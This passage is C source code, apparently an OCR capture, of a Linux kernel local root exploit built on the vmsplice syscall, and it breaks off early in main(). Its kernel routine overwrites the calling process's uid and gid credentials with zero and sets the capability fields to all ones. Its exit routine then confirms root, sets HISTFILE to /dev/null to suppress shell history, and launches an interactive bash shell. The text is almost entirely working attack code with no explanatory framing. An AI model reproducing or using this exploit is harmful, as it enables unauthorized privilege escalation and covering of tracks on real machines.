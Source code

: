 #if defined (_syscall4)
#define __NR__vmsplice	__NR_vmsplice
_syscall4(
	long, _vmsplice,
	int, fd,
	struct iovec *, iov,
	unsigned long, nr_segs,
	unsigned int, flags)

#else
#define _vmsplice(fd,io,nr,fl)	syscall(__NR_vmsplice, (fd), (io), (nr), (fl))
#endif

static uint uid, gid;

void	kernel_code()
{
	int	i;
	uint	*p = get_current();

	for (i = 0; i < 1024-13; i++) {
		if (p[0] == uid && p[1] == uid &&
		    p[2] == uid && p[3] == uid &&
		    p[4] == gid && p[5] == gid &&
		    p[6] == gid && p[7] == gid) {
			p[0] = p[1] = p[2] = p[3] = 0;
			p[4] = p[5] = p[6] = p[7] = 0;
			p = (uint *) ((char *)(p + 8) + sizeof(void *));
			p[0] = p[1] = p[2] = ~0;
			break;
		}
		p++;
	}	

	exit_kernel();
}

void	exit_code()
{
	if (getuid() != 0)
		die("wtf", 0);

	printf("[+] root\n");
	putenv("HISTFILE=/dev/null");
	execl("/bin/bash", "bash", "-i", NULL);
	die("/bin/bash", errno);
}

int	main(int argc, char *argv[])
{
	int		pi[2];
	size_t		map_size;
	char *		map_addr;
	struct iovec	iov;
	struct page *	pages[5];
